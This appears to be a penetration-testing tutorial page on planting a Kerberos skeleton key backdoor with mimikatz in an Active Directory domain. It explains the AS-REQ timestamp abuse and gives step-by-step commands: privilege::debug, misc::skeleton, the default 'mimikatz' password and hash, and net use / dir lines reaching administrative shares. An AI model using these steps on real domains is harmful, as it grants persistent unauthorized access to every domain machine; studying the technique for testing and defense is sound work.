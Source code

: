 # Kerberos Backdoors with mimikatz

### Introduction

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

***

### Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

***

### Preparing Mimikatz

1. `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

### Installing the Skeleton Key w/ mimikatz

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

### Accessing the forest

The default credentials will be: "mimikatz"

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques

***
